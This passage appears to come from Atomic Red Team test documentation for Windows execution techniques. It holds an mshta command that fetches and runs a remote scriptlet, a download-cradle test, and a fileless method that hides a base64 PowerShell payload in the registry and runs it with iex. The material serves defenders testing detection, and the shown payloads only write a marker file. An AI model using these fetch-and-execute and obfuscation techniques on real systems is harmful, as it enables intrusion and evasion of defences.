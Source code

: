 Provided by https://github.com/mgreen27/mgreen27.github.io

**Supported Platforms:** Windows

**auto_generated_guid:** 8a2ad40b-12c7-4b25-8521-2737b0a415af

#### Inputs:

| Name | Description               | Type | Default Value                                                                                        |
| ---- | ------------------------- | ---- | ---------------------------------------------------------------------------------------------------- |
| url  | url of payload to execute | url  | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059.001/src/mshta.sct |

#### Attack Commands: Run with `command_prompt`!

```cmd
C:\Windows\system32\cmd.exe /c "mshta.exe javascript:a=GetObject('script:#{url}').Exec();close()"
```

<br/>
<br/>

## Atomic Test #10 - Powershell Invoke-DownloadCradle

Provided by https://github.com/mgreen27/mgreen27.github.io
Invoke-DownloadCradle is used to generate Network and Endpoint artifacts.

**Supported Platforms:** Windows

**auto_generated_guid:** cc50fa2a-a4be-42af-a88f-e347ba0bf4d7

#### Run it with these steps!

1. Open Powershell_ise as a Privileged Account
2. Invoke-DownloadCradle.ps1

<br/>
<br/>

## Atomic Test #11 - PowerShell Fileless Script Execution

Execution of a PowerShell payload from the Windows Registry similar to that seen in fileless malware infections. Upon exection, open "C:\Windows\Temp" and verify that
art-marker.txt is in the folder.

**Supported Platforms:** Windows

**auto_generated_guid:** fa050f5e-bc75-4230-af73-b6fd7852cd73

#### Attack Commands: Run with `powershell`!

```powershell
# Encoded payload in next command is the following "Set-Content -path "$env:SystemRoot/Temp/art-marker.txt" -value "Hello from the Atomic Red Team""
reg.exe add "HKEY_CURRENT_USER\Software\Classes\AtomicRedTeam" /v ART /t REG_SZ /d "U2V0LUNvbnRlbnQgLXBhdGggIiRlbnY6U3lzdGVtUm9vdC9UZW1wL2FydC1tYXJrZXIudHh0IiAtdmFsdWUgIkhlbGxvIGZyb20gdGhlIEF0b21pYyBSZWQgVGVhbSI=" /f
iex ([Text.Encoding]::ASCII.GetString([Convert]::FromBase64String((gp 'HKCU:\Software\Classes\AtomicRedTeam').ART)))
```

